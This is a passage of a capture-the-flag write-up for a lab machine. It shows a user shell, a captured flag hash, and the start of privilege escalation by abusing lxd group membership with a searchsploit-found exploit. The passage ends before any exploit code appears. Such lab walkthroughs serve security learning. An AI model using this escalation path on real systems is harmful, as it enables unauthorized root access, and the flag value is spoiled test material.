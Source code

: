 ```
0 packages can be updated.
0 updates are security updates.

Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

```

Boom .
# Privilege Escalation

We can't `sudo -l` so we have to find another way, first we check `id` :

```
john@exploitable:/etc$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

```

**lxd** seems interesting, if we search about we find out it's a container, so we have to find a way out of that .

On reading around I found a way it can be used to escalate privileges on [exploit-db](https://www.exploit-db.com/exploits/46978), so let's download to target machine.

## Searchsploit

First thing we search for the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) on [Searchsploit](../../3%20-%20Tags/Hacking%20Tools/Searchsploit.md) and copy it to our directory :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ searchsploit lxd
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                            | linux/local/46978.sh
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Now we host the [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) server for the download :
